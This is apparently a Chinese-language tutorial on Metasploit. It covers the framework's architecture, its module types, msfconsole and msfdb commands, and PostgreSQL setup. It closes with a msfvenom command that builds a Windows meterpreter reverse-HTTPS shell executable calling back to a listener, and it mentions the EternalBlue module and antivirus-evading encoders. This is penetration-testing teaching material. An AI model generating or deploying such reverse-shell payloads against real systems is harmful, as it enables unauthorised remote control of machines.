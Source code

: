 # Metasploit简单使用

## Metasploit简介

- 目前最流行、最强大、最具扩展性的渗透测试平台软件。
- 基于Metasploit进行渗透测试和漏洞分析的流程和方法。
- 2003年由HD More发布第一版, 2007年用ruby语言重写，框架集成了渗透测试标准( PETS )思想，一定程度上统了渗透测试和漏洞研究的工作环境，新的攻击代码可以比较容易的加入框架。
- 开发活跃版本更新频繁(每周)，早期版本基于社区力量维护,被Rapid 7收购后打造出其商业版产品，目前分化为四个版本,社区版本依然十分活跃，HD More说:为Metasploit写书是种自虐!

## MSF架构

1. Rex：
   - 基本功能库;用于完成日常基本任务,无需人工手动编码实现
   - 处理socket连接访问、协议应答( http/SSL/SMB等)
   - 编码转换( XOR、Base64、 Unicode )
2. Msf::Core：
   - 提供Msf的核心基本API ,是框架的核心能力实现库
3. Msf::Base：
   - 提供友好的API接口,便于模块调用的库
4. Plugin插件：
   - 连接和调用外部扩展功能和系统

## 用户接口

1. 终端（Msfconsole），是Metasploit框架最受欢迎的用户接口，提供与用户交互式的输入，可以用它来做任何事情。
启动终端：在命令行里输入msfconsole即可。msf >
2. 命令行（msfcli），msfcli脚本处理和其他命令工具的互操作性。
3. Armitage，Metasploit框架中一个完全交互式的图形化用户接口。

## 模块

kali模块位置：/usr/share/metasploit-framework/modules/

技术功能模块(不是流程模块)

- Auxiliary：辅助模块：执行信息收集、枚举、指纹探测、扫描等功能的辅助模块(没有payload的exploit模块)
- Encoders：对payload进行加密,躲避AV检查的模块
- evasion：规避模块：创建反杀毒软件的木马，逃避防火墙
- Exploits：进攻模块：利用系统漏洞进行攻击的动作,此模块对应每个具体漏洞的攻击方法(主动、被动)
- Nops：提高payload稳定性及维持大小
- Payload：进攻载荷：成功exploit之后,真正在目标系统执行的代码或指令：
  - Shellcode或系统命令
  - 三种Payload：/usr/share/metasploit-framework/modules/payloads/
  - Single：all-in-one
  - Stager：目标计算机内存有限时,先传输个较小的payload用于建立连接
  - Stages：利用stager建立的连接下载的后续payload
  - Stager、Stages都有多种类型 ,适用于不同场景
  - Shellcode是payload的种，由于其建立正向/反向shell而得名
- Post：后渗透进攻模块：后渗透Post模块的利用

## 终端（Msfconsole），命令

- msf 数据库的操作

```msf
msfdb init     # 启动并初始化数据库
msfdb reinit   # 删除并重新初始化数据库
msfdb delete   # 删除数据库并停止使用它
msfdb start    # 启动数据库
msfdb stop     # 停止数据库
msfdb status   # 检查服务状态
msfdb run      # 启动数据库并运行msfconsole

db_connect postgres:fake975686955.@localhost:5432/msf
```

- msf终端下常用命令

查看命令

```linux
msfconsole          # 打开msf终端
msfupdate           # 跟新msf，5用不了了，使用 apt update; apt install metasploit-framework
banner              # 显示msf的banner
help [db_connect]   # 显示命令的帮助信息
hosts               # 查看记录的主机信息
services            # 查看主机和开放端口信息
reload_all          # 从新加载模块
```

使用命令

```msf
search [module]     # 搜索含有关键字的模块
use [module]        # 选择使用一个模块(以ms17_010永恒之蓝为例)
show payload        # 显示该模块支持的payload
info                # 如果觉得show命令显示的不够完整可以直接输入info查看详细详细
exploit/run         # 两个命令都表示运行攻击模块
```

postgres数据库相关：

```psql
安装postgresql
yum install https://download.postgresql.org/pub/repos/yum/reporpms/EL-7-x86_64/pgdg-redhat-repo-latest.noarch.rpm
yum install postgresql12
yum install postgresql12-server

删除PostgreSQL用户密码
sudo passwd -d postgres

设置PostgreSQL用户密码
sudo -u postgres passwd

初始化postgresql
/usr/pgsql-12/bin/postgresql-12-setup initdb

启动
systemctl enable postgresql-12


开机启动
systemctl start postgresql-12

进入数据：如果不用postgres用户登陆，必须指定数据库
psql -d msf                         # 当前用户指定数据库登陆
sudo -u postgres psql               # 指定postgres用户登陆
sudo -u fake psql -d postgres   # 指定数据库登陆

修改PostgreSQL登录密码：
ALTER USER postgres WITH PASSWORD '****';


创建数据库新用户
CREATE USER 用户名 WITH PASSWORD '*****';

先删除用户对数据库的权限，在删除用户
revoke all on database msf from fake;
drop role fake;

创建数据库
CREATE DATABASE dbname;

列出所有用户
\du

查看所有数据库
\l

查看当前登陆的用户
select user;

授予用户数据库权限
GRANT ALL PRIVILEGES ON DATABASE 数据库名 TO 用户名;

授予用户查看刚授权的数据库的里面的表的权限
GRANT ALL PRIVILEGES ON TABLE 表名  TO 用户名;

psql: FATAL:  Peer authentication failed for user "postgres"
解决方法很简单，使用和pgsql用户相同的系统用户登录，
sudo -u postgres psql -U postgres
```

生成shell：msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.22.158 LPORT=4444 -f exe > shell.exe